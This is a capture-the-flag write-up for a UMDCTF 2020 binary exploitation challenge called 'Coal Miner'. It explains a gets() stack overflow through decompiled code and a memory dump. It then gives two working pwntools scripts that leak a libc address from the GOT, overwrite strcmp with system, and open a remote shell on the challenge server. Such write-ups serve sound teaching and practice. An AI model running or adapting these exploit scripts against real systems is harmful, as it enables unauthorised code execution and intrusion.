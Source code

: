 # Coal Miner - Exploitation

## Description

First to fall over when the atmosphere is less than perfect

Your sensibilities are shaken by the slightest defect

nc 161.35.8.211 9999
Author: moogboi

## Solution

We are given a binary "coalminer"

```
$ file coalminer 
coalminer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bd336cddc0548ae0bc5e123e3932fd91be29888a, not stripped
```

```
$ checksec coalminer
[*] '/home/yodak/Documents/umdctf2020/coalminer/coalminer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can add or print items

```
$ ./coalminer 

Welcome to the Item Database
You may choose the commands 'add' or 'print' or 'done'
> add

Enter a name: 
aaaaa
Enter a description: 
aaaa
> print

Item 1
	aaaaa
	aaaa

> done

```

First, lets understand how adding new item works, thats how "AddItem" function looks in ghidra:

```
void AddItem(astruct *param_1)
{
  uint uVar1;
  void *pvVar2;
  long in_FS_OFFSET;
  undefined8 local_28;
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  uVar1 = param_1->number_of_items;
  pvVar2 = malloc(0x20);
  *(void **)(&param_1->description + (ulong)uVar1 * 0x10) = pvVar2;
  puts("Enter a name: ");
  gets(&param_1->name + (ulong)(uint)param_1->number_of_items * 0x10);
  puts("Enter a description: ");
  gets((char *)&local_28);
  **(undefined8 **)(&param_1->description + (ulong)(uint)param_1->number_of_items * 0x10) = local_28;
  param_1->number_of_items = param_1->number_of_items + 1;
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

We can see that it allocates 32 bytes on the heap for the item description, then it reads to stack a name of the item, reads description to local variable, and then copies the 8 bytes of description to previously allocated memory on the heap. We can clearly see that using the gets functions causes stack buffer overflow, but from checksec command we deduced that stack canary is used, which doesn't allow us to just overflow funtion return address. The parameter passed to the AddItem function is a local variable in the main function, so let's take a look how these variables are actually stored. That's how the stack looks before returning from "AddItem" function.

```
pwndbg> x/200xg $rsp
0x7fffffffdbf0:	0x0000000000602080	0x00007fffffffdc30
0x7fffffffdc00:	0x0000000062626262	0x09cea916a7582800
0x7fffffffdc10:	0x0000000000400b90	0x0000000000400b90
0x7fffffffdc20:	0x00007fffffffde50	0x0000000000400af7
0x7fffffffdc30:	0x0000000061616161	0x00000000006036b0
                        .
                        .
                        .
0x7fffffffde30:	0x0000000000000001	0x0000000000400770
```

My input for the name was "aaaa" and for the description "bbbb", the name landed on address 0x7fffffffdc30, which is main local variable, on address 0x7fffffffdc38 we can see address of space allocated by malloc, where is copied the description of item, which is stored at address 0x7fffffffdc00, address 0x7fffffffde30 stores number of items which is increased by one every time the function is called. We can establish from this that a single item is a struct looking something like this:

```
struct Item {
    char name[8];
    char *description;
};
```

 The "PrintItems" function just looks how many items there is (address 0x7fffffffde30 in my case) and prints name and description (which is the address to the heap) of the items. So to exploit this first we have to determine which version of libc is run on the server. We can use the gets function that saves Item name and can overwrite the address of item description and then use the "PrintItems" function (it prints the description of item at an address) to read address from GOT. But first we have to find a way to not overwrite that address because "addItem" function saves there the description suplied by second gets.

```
gets((char *)&local_28);
**(undefined8 **)(&param_1->description + (ulong)(uint)param_1->number_of_items * 0x10) = local_28;
```

To do this we can supply more than one item and overwrite the variable that stores the number of items, to make "addItem" function not to overwrite the address we want to read. Script that I used:

```
from pwn import *



r = remote('161.35.8.211', 9999)
puts_plt=0x602020
address=0x602010 # address that we dont care if it gets overwritten

print(r.recvuntil('> '))

r.sendline('add')
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

puts_libc = u64(par.split("\n")[3][1:]+"\0\0")

print(hex(puts_libc))

r.close()

```

The variable that stores the number of items is overwritten by 1, it is incremented by one by "AddItem" function and then the description supplied by gets is written to 0x602010 and the 0x602020 is not changed.


To identify which libc is running I used https://libc.nullbyte.cat/

After that we can write the actual script to exploit it, I replaced the strcmp funtion address in GOT by system function, because it uses string provided by user in which we just write "/b*/sh" (the wildcard * is used becaues it reads 7 bytes from user)

```
from pwn import *


r = remote('161.35.8.211', 9999)
puts_plt=0x602020
address=0x602010 # random address that we dont care if it gets overwritten
strcmp_plt=0x602050
offset_system=0x03f480
offset_puts=0x068f90

print(r.recvuntil('> '))

r.sendline('add')
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

libc = u64(par.split("\n")[3][1:]+"\0\0")-offset_puts
print(hex(libc))

r.sendline('add')

r.sendline('a'*8+p64(strcmp_plt))
r.sendline(p64(libc+offset_system))
print(r.recvuntil('> '))

r.sendline('/b*/sh')

r.interactive()

r.close()

```